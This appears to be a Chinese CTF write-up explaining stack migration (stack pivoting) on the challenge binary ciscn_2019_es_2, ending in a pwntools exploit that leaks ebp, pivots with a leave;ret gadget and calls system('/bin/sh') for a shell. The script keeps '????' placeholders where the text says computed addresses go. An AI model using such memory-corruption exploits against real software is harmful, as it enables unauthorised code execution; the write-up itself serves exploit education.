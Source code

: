 ```yaml
---
pythontitle: Stack Migration
tags: [ctf-pwn]
date: 2023-10-11 14:10:00
categories: [ctf-pwn]
excerpt: 栈迁移/栈劫持
---
```


### Stack Migration

![](/img/stack_migration/1.jpg)

溢出的长度不足以写rop链，劫持rbp到一个足够大的空间里去

首先通过调试查看ebp到可输入空间开头的距离

```python
gdb.attach(p, "b *0x080485FC") # 在python pwntools里下断点的方法（要放在开头），进去按一下c
```

![](/img/stack_migration/2.jpg)

程序输出的rbp为`0xffdb7098`，和图中aaaa的位置相差0x38，一会就要将ebp覆盖为ebp-0x38，从而开辟足够的空间来构造rop

然后`vul()`函数原本的返回地址被`&(leave ret)`取代了这样在`vul()`执行结束时，相当于多执行一次leave ret

过程如下：

```
1. vul()原本的leave
esp->ebp-0x38   ebp->aaaa   esp->leave ret
2. vul()原本的ret
eip->leave ret  esp->比返回地址再低4个字节的位置上
3. leave
esp->aaaa    ebp == aaaa  esp->system@plt
4. ret 
eip->system@plt   esp->system的返回地址（瞎写的）
```

这时，就相当于一个普通的rop了，system@plt为一个被溢出的返回地址，在他后面的是system的返回地址和它的参数，而"/bin/sh\x00"为一个字符串，需要一个指针指向它，因此需要计算一下binsh的地址。

由于aaaa是ebp-0x38，binsh距离aaaa有16个字节，那么这个地方填上ebp-0x28，就能给system传进去binsh的参数了。



**exp**

```python
from pwn import *
r = process("./ciscn_2019_es_2")
#r=remote('node4.buuoj.cn',25391)
gdb.attach(r, "b *0x080485FC") 
sys=0x8048400
leave_ret=0x08048562
main=0xdeadbeef

payload='a'*0x27+'b'
r.send(payload)
r.recvuntil("b")
rbp = u32(r.recv(4))
print(hex(rbp))

payload2=b'aaaa'+p32(sys)+p32(main)+b"????"+b"/bin/sh"
payload2=payload2.ljust(0x28,b'\x00')
payload2+=b"????"+p32(leave_ret)

r.send(payload2)
r.interactive()
```

